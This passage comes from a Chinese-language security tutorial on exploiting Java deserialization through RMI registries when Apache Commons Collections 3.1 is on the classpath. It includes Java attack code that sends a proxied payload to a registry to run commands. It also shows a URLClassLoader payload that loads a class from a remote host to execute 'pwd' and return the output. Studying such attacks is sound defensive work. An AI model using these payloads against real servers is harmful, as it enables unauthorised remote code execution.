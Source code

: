 上述代码中代码中，本来我使用`bind`函数，将`personService`对象绑定在服务器端供外部调用。

但我发现，即使没有任何对象绑定，只是用一行代码`LocateRegistry.createRegistry(6600);`,开通RMI服务。然后，通过访问服务端口（这里的6600端口），即可实现反序列化攻击。

这里进行利用当然遵从java反序列化漏洞中一个条件：`Apache Commons Collections`或者其他存在缺陷的第三方库包含在lib路径中。这里使用的是`commons-collections-3.1.jar`,将其加入到lib路径中。

![](http://drops.javaweb.org/uploads/images/add44f918973c8c7b117c134e86abfd3b0c23777.jpg)

这样，上述简单的RMI应用程序满足了反序列化漏洞的两个条件：

*   存在反序列化对象数据传输。
*   有缺陷的`Apache Commons Collections`第三方库在lib路径中。

攻击代码的编写：

```
Object instance = PayloadGeneration.generateExecPayload("calc");

InvocationHandler h = (InvocationHandler) instance;
Remote r = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(),new Class[]{Remote.class},h));//动态代理Rmote接口。
Registry registry = LocateRegistry.getRegistry(ip, port);//服务器端的ip和端口
try{
    registry.bind("pwned", r); // r is remote obj
}
catch (Throwable e) 
{
    e.printStackTrace();
}

```

这里将java反序列化漏洞的payload封装了下，`PayloadGeneration.generateExecPayload("calc");`会产生一个执行`calc`命令的对象，有兴趣的可以在我的[github](https://github.com/angelwhu/java_unserialize/blob/master/payload/PayloadGeneration.java)上查看源码。然后，将我们的payload发送到RMI服务端口进行攻击。

`registry.bind("pwned", r);`中r对象必须继承`Remote`接口。所以这里使用了java动态代理技术来代理Remote接口并生成其对象`r`。然后使用`bind`函数便可将攻击payload发送到RMI服务中，远程执行`calc`命令，攻击完成。本机测试如下：

![](http://drops.javaweb.org/uploads/images/143e29e09ea8c573c847b6c66ba6f4a509f9d2c2.jpg)

这里可以看到，只要应用服务器上使用了RMI服务，并使用了`Apache Commons Collections`第三方库，就可能存在反序列化命令执行的漏洞。

值得关注的是，RMI服务的攻击，同样可以使用`URLClassLoader`方法进行回显。

```
Object instance = PayloadGeneration.generateURLClassLoaderPayload("http://****/java/", "exploit.ErrorBaseExec", "do_exec", "pwd"); 

```

同样，将封装好的payload换成`URLClassLoader`的攻击负载。便能加载远程的`exploit.ErrorBaseError`类，执行`pwd`命令，即可回显。这是我在Ubuntu上运行服务端进行的测试结果。

![](http://drops.javaweb.org/uploads/images/92f5f941d914856ce5f2397d22b2f413de9ef10c.jpg)
